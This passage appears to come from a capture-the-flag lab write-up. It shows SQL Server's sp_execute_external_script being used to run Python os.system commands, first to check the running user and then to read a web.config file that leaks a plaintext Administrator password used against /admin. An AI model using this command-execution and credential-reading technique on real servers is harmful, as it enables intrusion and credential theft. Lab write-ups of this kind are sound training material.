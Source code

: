 #### Scripts

It turns out that when a webserver is enabled to run the stored procedure
`sp_execute_external_script`, and that it is configured to do that as a
different user. To run script, the [syntax is relatively
simple](https://nielsberglund.com/2017/04/20/sql-server-2017---python-
executing-inside-sql-server/):

    
    
    SQL> EXEC sp_execute_external_script @language =N'Python', @script = N'import os; os.system("whoami");';
    [*] INFO(COMPATIBILITY\POO_PUBLIC): Line 0: STDOUT message(s) from external script: 
    compatibility\poo_public01
    
    Express Edition will continue to be enforced.
    

Now I can run as `poo_public01`.

### web.config

Now I can read the `web.config` file:

    
    
    SQL> EXEC sp_execute_external_script @language =N'Python', @script = N'import os; os.system("type \inetpub\wwwroot\web.config");';
    [*] INFO(COMPATIBILITY\POO_PUBLIC): Line 0: STDOUT message(s) from external script: 
    <?xml version="1.0" encoding="UTF-8"?>
    <configuration>
        <system.webServer>
            <staticContent>
                <mimeMap
                    fileExtension=".DS_Store"
                    mimeType="application/octet-stream"
                />
            </staticContent>
            <!--
            <authentication mode="Forms">
                <forms name="login" loginUrl="/admin">
                    <credentials passwordFormat = "Clear">
                        <user 
                            name="Administrator" 
                            password="EverybodyWantsToWorkAtP.O.O."
                        />
                    </credentials>
                </forms>
            </authentication>
            -->
        </system.webServer>
    </configuration>
    
    Express Edition will continue to be enforced.
    

It contains creds for the administrator account. These work to get past the
basic auth at `/admin`, and return the next flag:
